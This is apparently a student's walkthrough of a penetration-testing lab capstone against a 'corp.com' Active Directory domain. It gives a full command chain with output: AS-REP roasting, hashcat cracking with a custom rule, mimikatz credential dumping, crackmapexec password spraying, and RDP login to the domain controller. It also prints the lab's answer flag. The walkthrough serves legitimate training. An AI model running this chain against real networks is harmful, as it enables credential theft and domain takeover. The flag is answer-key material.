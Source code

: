 Topics: Capstone Exercise
Questions 2
Capstone Exercise: Once VM Group 2 is started, the domain corp.com has been modified. Use the techniques from this Module to obtain access to the user account maria and log in to the domain controller. To perform the initial enumeration steps you can use pete with the password Nexus123!. You'll find the flag on the Desktop of the domain administrator on DC1. If you obtain a hash to crack, create and utilize a rule file which adds nothing, a "1", or a "!" to the passwords of rockyou.txt.

# HINT
Perform credential roasting on specific users within the DC.
Crack the hash using a custom rule with hashcat.
Spray the new credential across all machines using crackmapexec.
Use mimikatz to perform post-exploitation and try logging into DC1.
# Answer
OS{be70e47aad385235c752a4aae41dacb0}

sudo impacket-GetNPUsers -dc-ip 192.168.221.75  -request -outputfile hashes.asreproast corp.com/pete
Password: Nexus123!
...
$krb5asrep$23$mike@CORP.COM:f577ba022cedf0883b926e639e5cbf55$f95508dbbe5b4f884d9eb6d5191693865a016ef9cf1e297530b2e7337359dce35598216698658d97feb38b19898edde66048e3d3748b881728e9bd1ec01c5d3f2b3a6b1d70287adfd4c10ee29c4a677d3bf6a6c5080019444a1bff81f5a153a14575039d607381650929bd7aedf207e23821e370f564f3e24072644c868c2f5bfa3ce6b40a4acb1c2c2a5f82a15209de27d2bec06737ae0b3fb95d83f6a865589ef8450f42389f2dc046bdbc6f76ea8738a00047bc73c02dbc32302be5fe7b30e0ea07e928d9412fc537ec2eb183dcd76dd288a9ce111466162d664a506ddd014aba7ef3

$krb5asrep$23$dave@CORP.COM:db1232b08f25ce1968cc0af81f004fbb$b4a23f51f0ecacee78d3b39656aa61650fdb842f6e919e25887b37e1b4b792e79c71cb83e247892fc8f7267fceee00faecb26f25fe7667c119a6ab4fbdfe3af38e460df8f4d1d7fb5531d3a74f764bc35a3e8dd06befa3908cc09cdb0e0414ebfff2ea96328352cda0def40d7f2d706c66e2be19f89aa430cba97960245440943411121fda7f1d55a3977d6bbe836db908321fd97cf0ebf6ebcf594afed73fd0b00ea4d7a45c929d9de52c74c2ea295ee8ee750b879409cc9e1e91bd0590beae88d005bd6ae0a63986bf7989d6798d1c9eb3492d9b7062ea28355eb73a83af0e0e16fda5
...

# Paste the above hash into it
code hashes 
# Add nothing, a "1" or a "!" to the password rockyou.txt
code append.rule
```
:
$1
$!
```

hashcat --help | grep -i "Kerberos" 
...
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
...


hashcat -D 1 -m 18200 hashes /usr/share/wordlists/rockyou.txt -r append.rule --force 
# mike@CORP.COM
...
Darkness1099!                                                
Session..........: hashcat
Status...........: Cracked
...
# dave@CORP.COM
...
Session..........: hashcat                                
Status...........: Exhausted
...

# Next access to RDP and open Powershell in administrator mode
xfreerdp /cert-ignore /u:mike /d:corp.com /p:Darkness1099! /v:192.168.221.75

PS C:\Tools> powershell -ep bypass
PS C:\Tools> .\mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
...
        * Domain   : CORP
        * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
        * Username : dave
        * Password : Flowers1

        * Username : maria
        * Domain   : CORP
        * NTLM     : 2a944a58d4ffa77137b2c587e6ed7626
...

code hashes
hashcat -m 1000 hashes /usr/share/wordlists/rockyou.txt -r append.rule --force
...
2a944a58d4ffa77137b2c587e6ed7626:passwordt_1415 
...

sudo crackmapexec smb 192.168.221.75 -u maria -p 'passwordt_1415' -d corp.com
...
SMB         192.168.221.75  445    CLIENT75         [+] corp.com\maria:passwordt_1415 (Pwn3d!)
...

xfreerdp /cert-ignore /u:maria /d:corp.com /p:passwordt_1415 /v:192.168.221.70

# Open powershell with administrator
PS C:\Users\Administrator\Desktop> type .\flag.txt
OS{be70e47aad385235c752a4aae41dacb0}